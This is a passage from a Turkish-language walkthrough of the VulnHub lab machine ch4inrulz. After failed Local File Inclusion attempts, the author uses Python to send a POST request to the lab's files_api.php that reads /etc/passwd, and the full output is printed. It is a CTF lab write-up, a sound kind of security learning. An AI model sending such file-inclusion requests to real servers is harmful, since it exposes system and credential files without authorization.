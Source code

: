 ![ch4inrulz-2](/assets/ctf/vulnhub/resimler/ch4inrulz:-1.0.1/ch4inrulz-2.png)

Bende burada Local File Inclusion açığının bulunduğunu düşünerek [buradaki github sayfasındaki](https://github.com/lucyoa/ctf-wiki/tree/master/web/file-inclusion) tüm yöntemleri denedim. Buradan bir sonuca ulaşamadım.

Uzunca uğraştan ve araştırmadan sonra biraz yardım ile POST metodu kullanmam gerektiğini öğrendim. Bu işlem için python kullandım.

```text
root@kali:~# python3
Python 3.6.7 (default, Oct 22 2018, 11:32:17)
[GCC 8.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> r = requests.post("http://192.168.56.102:8011/api/files_api.php", data={"file": "/etc/passwd"})
>>> print(r.text)

<head>
  <title>franks website | simple website browser API</title>
</head>

root:x:0:0:root:/root:/bin/bash
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
```